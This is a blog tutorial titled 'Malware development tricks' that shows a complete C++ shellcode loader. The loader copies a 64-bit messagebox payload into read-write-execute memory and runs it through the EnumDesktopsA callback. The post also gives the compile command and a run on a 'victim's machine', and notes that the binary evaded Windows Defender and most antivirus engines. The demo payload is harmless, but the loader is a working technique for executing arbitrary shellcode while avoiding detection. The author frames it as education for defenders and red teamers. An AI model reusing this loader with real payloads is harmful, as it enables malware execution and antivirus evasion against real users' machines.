 ```yaml
---
title:  "Malware development tricks. Run shellcode via EnumDesktopsA. C++ example."
date:   2022-06-27 09:00:00 +0600
header:
  teaser: "/assets/images/60/2022-06-27_14-08.png"
categories:
  - tutorial
tags:
  - injection
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](/assets/images/60/2022-06-27_14-08.png){:class="img-responsive"}    

This article is the result of my own research into the next interesting trick: run shellcode via enumerates desktops.    

### EnumDesktopsA

Enumerates all desktops associated with the calling process's specified window station.    
The function passes the name of each desktop to a callback function defined by the application:

```cpp
BOOL EnumDesktopsA(
  HWINSTA          hwinsta,
  DESKTOPENUMPROCA lpEnumFunc,
  LPARAM           lParam
);
```

### practical example

Let's go to look at a practical example. The trick is pretty simple:    

```cpp
/*
 * hack.cpp - run shellcode via EnumDesktopA. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/
*/
#include <windows.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

As you can see, first we allocate memory buffer in a current process via `VirtualAlloc`:    

```cpp
LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

Then "copy" our payload to this memory region:    

```cpp
RtlMoveMemory(mem, my_payload, sizeof(my_payload));
```

And then, as a pointer to the callback function in `EnumDesktopsA` we specify this memory region:   

```cpp
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

As usually, for simplicity I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Let's go to see everything in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![injection](/assets/images/60/2022-06-27_14-28.png){:class="img-responsive"}    

and run in our victim's machine:    

```powershell
.\hack.exe
```

![injection](/assets/images/60/2022-06-27_14-32.png){:class="img-responsive"}    

![injection](/assets/images/60/2022-06-27_14-34.png){:class="img-responsive"}    

As you can see, everything is work perfectly :)    

Let's go to upload `hack.exe` to VirusTotal:    

![injection](/assets/images/60/2022-06-27_14-37.png){:class="img-responsive"}    

**So, 16 of 66 AV engines detect our file as malicious.**    

[https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection](https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection)    

And what's interesting this trick bypassed Windows Defender:    

![injection](/assets/images/60/2022-06-27_14-39.png){:class="img-responsive"}    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[EnumDesktopsA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumdesktopsa)    
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-06-27-malware-injection-20)   

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
